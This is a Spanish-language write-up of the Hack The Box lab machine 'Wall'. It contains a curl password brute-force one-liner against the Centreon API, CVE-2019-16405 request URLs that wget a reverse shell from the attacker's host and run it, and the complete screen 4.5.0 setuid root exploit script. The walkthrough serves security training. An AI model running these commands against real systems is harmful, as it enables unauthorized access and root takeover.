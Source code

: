 # Wall

![1_XItXYcP8tLhBnR8FvyPing](https://user-images.githubusercontent.com/87484792/184016462-429034df-66b4-4f34-8386-107417732885.png)

## Datos de Interés

Siento que esta máquina no tiene un gran nivel de dificultad. Será cuestión de investigar un poco sobre el servicio de monitorización que hostea el puerto 80 en el servidor Web. En este caso se trata de **Centreón**. La escalada de privilegios se hará a traves de un SUID que ya hemos podido explotar en otras maquinas, será el screen con versión 4.5.0. Explicaremos de forma manual algunos scripts para entender la intrusión.

## Enumeración

Empezaremos con la fase de enumeración, usaremos nmap para descubrir puertos abiertos. 

`sudo nmap --min-rate 5000 -vvv -p- -sS -Pn -n -oN openPorts.txt 10.10.10.157`

Esta maquina solamente tiene dos puertos abiertos.

![image](https://user-images.githubusercontent.com/87484792/184020390-8073e636-5782-434b-8c9e-d632cec64022.png)

Por un lado tendremos puerto 22 (SSH) y por otro lado el puerto 80 (HTTP).

##  Reconocimiento 

Con SSH no podemos hacer gran cosa ahora mismo, no tenemos credenciales válidas. Iremos a revisar el otro puerto. Encontramos una pagina web con un "Default Page" de Apache. 

![image](https://user-images.githubusercontent.com/87484792/184023616-68fb0323-61b8-4928-863c-4e1f63d08612.png)

Es buena idea empezar a hacer fuzzing, tiraré de dirsearch, en caso de no encontrar nada usaré otro diccionario o haré uso de wFUZZ. Aunque ya puedo adelantar que con dirsearch me fue suficiente.

![image](https://user-images.githubusercontent.com/87484792/184025529-e16886f4-9fc6-4d8c-9cae-5fb7eb29bdd9.png)

Hay cosas interesantes en el reporte del fuzz. 
- */panel.php* parece ser una pequeña troleada del author de la caja.
- */Monitoring*, no podemos acceder. Necesitamos credenciales.
- */centreon* es un software de monitoreo. No tenemos credenciales pero si que tenemos algo muy importante, **la versión**.

![image](https://user-images.githubusercontent.com/87484792/184026472-c0a47dbd-145d-4564-800e-1f39c039f513.png)

La misma web nos da la información que estamos contra un login de versión 19.04

Esto es muy bueno ya que haciendo una busqueda simple en Google, vemos varios CVE y podemos ver que es vulnerable a **RCE**.
Para poder ejecutar estos CVE necesitamos acceso a una cuenta administrador, pero puesto que no tengo ninguno, intentaré bruteforcearlo.

Encontré un script que me ahorraba tiempo para el bruteforce, pero al echarle un ojo quise aprender como funcionaba. Hay un token que nos limita el bruteforce, así que decidi mirar un poco más a fondo. Encontré que este sistema tiene una api que de primera me decia **Unauthorized**. Con una busqueda en google de la API, en la sección de Authenticación pude ver la data que espera la API. Por esta via será mucho más rápido y eficiente que intentar manipular la petición con el token.

Monté un oneliner como este:

`while read line; do request=$(curl -s -X POST "http://10.10.10.157/centreon/api/index.php?action=authenticate" -d "username=admin&password=$line" | tr -d "\""); if [ $request != "Bad credentials" ];then echo -e "\n"'[*] Password found: '$line; break; fi ; done < /usr/share/wordlists/rockyou.txt`

Funciono. Conseguí la password: `password1`

Y efectivamente era la correcta. 
Tal como se puede mostrar en la imagen, nos ha dejado loguearnos.

![image](https://user-images.githubusercontent.com/87484792/184038497-785183bd-a2e8-4d03-b853-7d061616b1fb.png)

Mirando los POC de los CVE, intenté hacerlo de forma manual. De forma grafica tendremos que acceder a **"Config > Commands > Discovery"**
Sin embargo parece que no funciona, algo esta bloqueando el poder ejecutar comandos. Dudo que siendo admin no tengamos los privilegios suficientes para ejecutar comandos.

![image](https://user-images.githubusercontent.com/87484792/184151052-528764c9-7215-4afa-82df-e14288fbda6f.png)

Me pregunté si habia algún WAF activo. Probé tambien con Scripts que habia de la comunidad en GitHub y Scripts de db-exploit. Ninguno me daba una shell.
Como habia más de un CVE que afectaba a esta versión, decidi mirar los otros caminos posibles. 

## CVE-2019-16405

Podemos realizar Ejecución Remota de Comandos a traves de una modificación de plugin, siempre y cuando tengamos permisos de administrador.
Es el caso, así que probaré.

![image](https://user-images.githubusercontent.com/87484792/184155790-5802941d-d764-4ce8-9d33-05e921090fc9.png)

`URL: http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=id&o=p&min=1`

Y si, efectivamente podemos ejecutar comandos. Trataré de cargar una shell para ejecutarla con bash. Hay varios Scripts que son totalmente funcionales, y que dejaré en este write up, pero esta vez lo haremos de forma manual. 

De primeras, crearé un archivo llamado 'shell' con una reverse dentro, compartiré ese archivo a traves de un servidor Python y por último ejecutaré en el centreon el comando de *wget* para descargarlo en la maquina victima.  

![image](https://user-images.githubusercontent.com/87484792/184157502-36293fb2-ee1a-4d9f-9c34-5a1b7279e2c5.png)

Guardamos la shell en el directorio /tmp:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=wget%20http%3A%2F%2F10.10.16.7%2Fshell%20-O%20%2Ftmp%2Fshell&o=p&min=1`

Despues de este paso, queda activarlo para obtener la shell. Ejecutaremos bash.
Para eso antes, me pondré en escucha por el puerto 8081. Y finalmente, ejecutamos.

otorgamos privilegios de ejecución:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=chmod%20777%20/tmp/shell&o=p&min=1`

ejecutamos:

`http://10.10.10.157/centreon/main.get.php?p=60801&command_hostaddress=&command_example=&command_line=bash%20%2Ftmp%2Fshell&o=p&min=1`

![image](https://user-images.githubusercontent.com/87484792/184162441-79d1070e-8e07-4132-9e59-646d46373b0a.png)


## Privilegios de Escalados - User & Root

Nos encontramos como el usuario `www-data`, no nos encontramos en ningún grupo interesante, pero mirando los **SUID** hay algo que me llama directamente mi atención.

![image](https://user-images.githubusercontent.com/87484792/184164799-31146bbd-5ca7-4004-a41c-705204c99667.png)

**Screen 4.5.0** Es un binario que nos ayudará a escalar a Root.
Solo es necesario saber si la máquina cuenta con *GCC*, que en este caso, es afirmativo.
En db-exploit podemos encontrar los comandos que tenemos que ejecutar para escalar, tambien hay un script en bash que nos lo automatiza. Al ser solamente tirar comandos, podemos ejecutarlo directamente.

El shell es este:

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell

```
